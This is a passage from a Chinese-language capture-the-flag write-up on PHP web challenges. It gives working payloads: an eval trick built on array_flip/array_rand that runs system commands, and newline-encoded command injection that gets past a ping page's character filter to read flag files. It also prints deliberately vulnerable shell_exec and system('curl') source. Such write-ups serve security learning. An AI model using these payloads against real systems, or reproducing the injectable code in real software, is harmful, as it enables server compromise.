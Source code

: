 payload：

将数组的键名和键值对调，然后把他单独获取出来再eval
这里要把执行的参数第一个传~

```
?a=system('ls');&code=eval(array_rand(array_flip(current(get_defined_vars()))));

?a=system('tac flag.php');&code=eval(array_rand(array_flip(current(get_defined_vars()))));
```

## 687-ping拼接

```php
<?php
    highlight_file(__FILE__);
    $target = $_REQUEST[ 'ip' ];
    $target=trim($target);
    $substitutions = array(
        '&'  => '',
        ';' => '',
        '|' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    $cmd = shell_exec( 'ping  -c 1 ' . $target );
    echo  "<pre>{$cmd}</pre>";
```

过滤了很多，简单来说就是利用拼接符执行多条命令

不过这里大部分都被ban了，用换行即可

```
?ip=127.0.0.1%0als /
    
?ip=127.0.0.1%0atac /flaaag
```

## 688-escapeshellarg()和escapeshellcmd() 之殇

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

//flag in /flag
$url = $_GET['url'];
$urlInfo = parse_url($url);
if(!("http" === strtolower($urlInfo["scheme"]) || "https"===strtolower($urlInfo["scheme"]))){
    die( "scheme error!");
 }
$url=escapeshellarg($url);
$url=escapeshellcmd($url);
system("curl ".$url);
```
